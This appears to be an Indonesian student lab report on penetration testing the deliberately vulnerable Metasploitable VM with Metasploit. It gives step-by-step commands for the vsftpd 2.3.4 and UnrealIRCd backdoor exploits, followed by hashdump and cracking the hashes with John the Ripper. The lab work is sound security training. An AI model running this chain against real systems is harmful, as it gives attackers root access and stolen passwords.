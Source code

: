 # Tugas 5

## Pendahuluan

&nbsp;&nbsp;&nbsp; Komputer sebagai perangkat yang sering digunakan untuk memudahkan pekerjaan manusia di berbagai bidang membuat perangkat ini dimiliki oleh setiap orang. Sistem operasi yang mengendalikan dan mengkoordinasikan semua perangkat keras yang bekerja di komputer menjadikan munculnya berbagai tipe sistem operasi yang berkembang di pasaran, dimulai dari sistem operasi yang berbayar seperti Windows hingga yang gratis atau open source seperti Linux.

&nbsp;&nbsp;&nbsp; Sistem operasi yang berkembang saat ini selalu mengalami pembaharuan untuk meningkatkan kinerja serta kualitas yang dimilikinya. Perkembangan sistem operasi sekarang ini banyak mengalami penyempurnaan akan tetapi masih terdapat celah keamanan yang dapat dieksploitasi dengan berbagai cara yang mengakibatkan komputer dapat dieksploitasi dan dimanfaatkan oleh orang yang tidak memiliki hak akses ke dalam sebuah sistem.

&nbsp;&nbsp;&nbsp; Untuk mengetahui celah keamanan tersebut perlu adanya pengujian atau penetrasi untuk menguji dan mencari celah keamanan apa saja yang dapat dieksploitasi di sistem operasi yang dapat digunakan untuk masuk ke dalam sebuah sistem tanpa memiliki hak akses.

## Dasar Teori

### Metasploitable
&nbsp;&nbsp;&nbsp; Metasploitable adalah mesin secara sengaja rentan virtual Linux. VM ini dapat digunakan untuk melakukan pelatihan keamanan, alat tes keamanan, dan praktek penetrasi Versi pengujian umum teknik ini 2 dari mesin virtual yang tersedia untuk di-download dari Sourceforge dan kapal dengan kerentanan bahkan lebih dari gambar asli.

### Kali Linux
&nbsp;&nbsp;&nbsp; Kali Linux merupakan pembangunan kembali BackTrack Linux secara sempurna,  mengikuti sepenuhnya kepada standar pengembangan Debian. Semua infrastruktur baru telah dimasukkan ke dalam satu tempat, semua tools telah direview dan dikemas, dan kami menggunakan Git untuk VCS nya.

## Instalasi

### -Instalasi Metasploitable pada Virtual Box



1. Download dan install Virtual Box pada komputer anda.
2. Setelah instalasi selesai, buka Virtual Box dan klik "New".

![alt text](https://scontent-sit4-1.xx.fbcdn.net/v/t34.0-12/15356755_1380978318593630_3194431754367144286_n.jpg?oh=f087713c84352ad23b6478a8493fe365&oe=5849DC89 "")

3. Anda bisa memberikan nama, tujuannya kita memberi nama pada Metasploitable hanya untuk memastikan nama itu dimengerti dan mudah untuk dikenali.

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;![alt text](https://scontent-sit4-1.xx.fbcdn.net/v/t34.0-12/15380732_1380971348594327_7514329790307194132_n.jpg?oh=0246f9be1fd2c43b4417052ac6bc505e&oe=5848BEE2 "")

4. Untuk memori, anda setidaknya mengalokasikan memori minimal 256MB. Namun jika anda mempunyai RAM yang cukup besar, anda bisa meninambahkan alokasi memorinya. 

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;![alt text](https://scontent-sit4-1.xx.fbcdn.net/v/t34.0-12/15319080_1380971545260974_1520687697596227853_n.jpg?oh=d64003d28cba89fdba1374e5ff8c275a&oe=5848FFEB "")

5. Di dalam jendela "Create Virtual Machine", anda dapat memilih lokasi gambar yang telah anda download sebelumnya (setelah mengekstrak file ZIP nya). Klik logo folder di sebelah kanan bawah dan cari lokasi gambar Metasploitable.

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;![alt text](https://scontent-sit4-1.xx.fbcdn.net/v/t34.0-12/15327502_1380972465260882_5014155796298159778_n.jpg?oh=0402f6e77f2519d2f1f2d58683729e8f&oe=5848C3B3 "")

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Ketika selesai, klik "Create"

6. Langkah selanjutnya adalah kita harus menjalankan machine yang baru saja kita install. Pilih Metasploitable OS dan klik "Start".
7. Machine metasploitable akan booting dan seperti ini tampilan window nya.

![alt text](https://scontent-sit4-1.xx.fbcdn.net/v/t34.0-12/15284855_1380970998594362_1369452897915757503_n.jpg?oh=3f4082ecf41161618c6ca0aa1782a7c3&oe=5848F2DA "")

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Secara default usernamenya: msfadmin dan passwordnya: msfadmin. Anda bisa merubah &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;username dan password setelah log in dan menjadikan root.  

## Uji Penetrasi Metasploit

### Exploit vsftpd_234_backdoor

1. Masuk ke metasploit console dengan cara mengetikkan perintah: `msfconsole`
![alt text](https://github.com/HerdiantoNaufal/PKSJ_Kel6/blob/master/Gambar/vsftpd_1.PNG "")

2. Setelah masuk ke metasploit console, kita akan mencari exploitnya dengan mengetikkan perintah: `search vsftpd`
![alt text](https://github.com/HerdiantoNaufal/PKSJ_Kel6/blob/master/Gambar/vsftpd_2.PNG "")

3. Setelah mendapatkan yang kita cari, kemudian kita masuk kedalamnya dengan mengetikkan perintah: `use exploit/unix/ftpvsftpd_234_backdoor` dan jangan lupa untuk setting ip target yang akan di exploit dengan mengetikkan perintah: `set RHOST [IP_Target]`
![alt text](https://github.com/HerdiantoNaufal/PKSJ_Kel6/blob/master/Gambar/vsftpd_3.PNG "")

4. Kita akan melakukan exploit. Ketikkan perintah: `exploit`
![alt text](https://github.com/HerdiantoNaufal/PKSJ_Kel6/blob/master/Gambar/vsftpd_4.PNG "")

5. Lihat session yang sedang berjalan dengan perintah: `sessions -l`
![alt text](https://github.com/HerdiantoNaufal/PKSJ_Kel6/blob/master/Gambar/vsftpd_5.PNG "")

6. Kemudian kita akan melihat post apa saja yang tersedia dengan mengetikkan perintah: `show post`
![alt text](https://github.com/HerdiantoNaufal/PKSJ_Kel6/blob/master/Gambar/vsftpd_6.PNG "")

7. Misalnya disini saya akan melakukan exploit terhadap hashdump. Kita ketikkan perintah: `use post/linux/gather/hashdump`. Kemudian set session yang sedang berjalan dengan perintah: `set session 1`. Untuk eksekusi ketikkan perintah: `run`
![alt text](https://github.com/HerdiantoNaufal/PKSJ_Kel6/blob/master/Gambar/vsftpd_7.PNG "")

8. Saat kita mengecek file dump tersebut, isi filenya masih terenkripsi. Oleh karena itu kita akan mendecrypt dengan bantuan tool lain, yaitu John de Ripper. Untuk menjalankan tool tersebut kita akan masuk ke direktori `/usr/sbin`, kemudian jalankan John de Ripper dengan mengetikkan perintah: `./john [Lokasi_File_Hashdump]`
![alt text](https://github.com/HerdiantoNaufal/PKSJ_Kel6/blob/master/Gambar/vsftpd_8.PNG "")

9. Dari gambar di atas, setelah file dump berhasil di decrypt kita dapat melihat username dan password target kita

### Exploit unreal_ircd_3281_backdoor

1. Sama dengan exploit sebelumnya, pertama kita masuk ke metasploit console dengan cara mengetikkan perintah: `msfconsole`
![alt text](https://github.com/HerdiantoNaufal/PKSJ_Kel6/blob/master/Gambar/ircd_1.PNG "")

2. Setelah masuk ke metasploit console, kita akan mencari exploitnya dengan mengetikkan perintah: `search unreal`
![alt text](https://github.com/HerdiantoNaufal/PKSJ_Kel6/blob/master/Gambar/ircd_2.PNG "")

3. Setelah mendapatkan yang kita cari, kemudian kita masuk kedalamnya dengan mengetikkan perintah: `use exploit/unix/irc/unreal_ircd_3281_backdoor` dan jangan lupa untuk setting ip target yang akan di exploit dengan mengetikkan perintah: `set RHOST [IP_Target]`
![alt text](https://github.com/HerdiantoNaufal/PKSJ_Kel6/blob/master/Gambar/ircd_3.PNG "")

4. Kita akan melakukan exploit. Ketikkan perintah: `exploit -z`
![alt text](https://github.com/HerdiantoNaufal/PKSJ_Kel6/blob/master/Gambar/ircd_4.PNG "")

5. Lihat session yang sedang berjalan dengan perintah: `sessions -l`
![alt text](https://github.com/HerdiantoNaufal/PKSJ_Kel6/blob/master/Gambar/ircd_5.PNG "")

6. Kemudian kita akan melihat post apa saja yang tersedia dengan mengetikkan perintah: `show post`
![alt text](https://github.com/HerdiantoNaufal/PKSJ_Kel6/blob/master/Gambar/ircd_6.PNG "")

7. Seperti exploit sebelumnya, disini saya kembali akan melakukan exploit terhadap hashdump. Kita ketikkan perintah: `use post/linux/gather/hashdump`. Kemudian set session yang sedang berjalan dengan perintah: `set session 1`. Untuk eksekusi ketikkan perintah: `run`
![alt text](https://github.com/HerdiantoNaufal/PKSJ_Kel6/blob/master/Gambar/ircd_7.PNG "")

8. Sama seperti sebelumnya, kita akan melakukan decrypt dengan bantuan tool John de Ripper untuk mendapatkan username dan password target dengan cara mengetikkan perintah: `./john [Lokasi_File_Hashdump]`.
